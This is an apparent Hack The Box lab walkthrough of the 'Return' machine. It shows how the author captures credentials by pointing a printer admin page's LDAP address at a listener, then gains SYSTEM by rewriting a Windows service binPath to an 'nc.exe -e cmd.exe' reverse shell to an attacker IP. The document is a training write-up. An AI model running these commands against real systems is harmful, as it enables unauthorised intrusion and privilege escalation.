---
---

# HTB - Printer Exploitation Track - Return

NMAP


 



Add return.local to /etc/hosts

- Port 80 has a Printer admin page


- I tried to change the password but it didn't work:



- Then I set up a listener on port 389 and change the Server Address to my tun0:






**1edFg43012!!**

- And we have valid creds:



- Shell with winrm:












Modify a service path

- Evil-WinRM has services built in:


- We'll choose the VMTools service (as it has privileges) and configure the binary it points to:
```bash
sc.exe config VMTools binPath= "C:\Users\svc-printer\Documents\nc.exe -e C:\WINDOWS\System32\cmd.exe 10.10.14.40 9001"

```



- Set up a listener:
```bash
rlwrap -cAr nc -lvnp 9001

```
- Now we stop and start the service with:
```bash
sc.exe stop VMTools

sc.exe start VMTools

```



- Shell as system:



```bash
type root.txt

```